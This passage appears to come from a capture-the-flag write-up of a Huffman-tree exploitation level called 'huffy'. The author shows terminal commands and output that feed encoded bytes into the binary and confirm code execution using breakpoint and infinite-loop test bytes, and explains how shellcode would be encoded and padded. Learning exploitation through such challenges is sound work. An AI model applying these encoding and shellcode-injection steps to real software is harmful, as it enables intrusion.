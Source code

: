 Binary Encoded:
<pre>
hello world, this is my shellcode!""""""33333333DDDDDDDDEUUUUUUUUwwwwww????????????????????????????????????????????????????????????????????????
Executing encoded input...
Segmentation fault
</pre>

That's better! It decoded it properly thanks to my little hack! Not let's try my two favourite test strings, "\xcd\x03" (debug breakpoint, can also use "\xcc") and "\xeb\xfe" (infinite loop):

<pre>
$ ruby ./sploit.rb
echo -ne '\x2d\x08\xf7\x3c\x4b\x1e\x69\x5a' &gt; in; ./huffy &lt; in

$ echo -ne '\x2d\x08\xf7\x3c\x4b\x1e\x69\x5a' &gt; in; ./huffy &lt; in
Binary Encoded:
?Eg???
Executing encoded input...
Trace/breakpoint trap

$ ruby ./sploit.rb
echo -ne '\x59\xa5\x00\xff\x77\x88\x33\xcc\x44\xbb\x11\xee\x66\x92\x2d\xda' &gt; in; ./huffy &lt; in

$ echo -ne '\x59\xa5\x00\xff\x77\x88\x33\xcc\x44\xbb\x11\xee\x66\x92\x2d\xda' &gt; in; ./huffy &lt; in
Binary Encoded:
??"3DUfw??????
Executing encoded input...
[...infinite loop...]
</pre>

At this point, I had run out of time (damn you timezones!) and didn't finish up.

<h2>Summary</h2>

This was, as I mentioned, a pretty straight forward Huffman-Tree level.

It compresses your input, nibble-by-nibble, and runs the result.

I gave it some input to ensure the tree is balanced, where each nibble produces 4 bits, then we encoded the shellcode as such.

When I realized I was getting the wrong output, rather than reversing the bit strings, which I hadn't realize were backwards until just now, I made a little table to translate them correctly.

Then we encode the shellcode, and we win!

The last step would be to find appropriate shellcode, pad the message to always be 1024 nibbles (like the server wants), and send it off!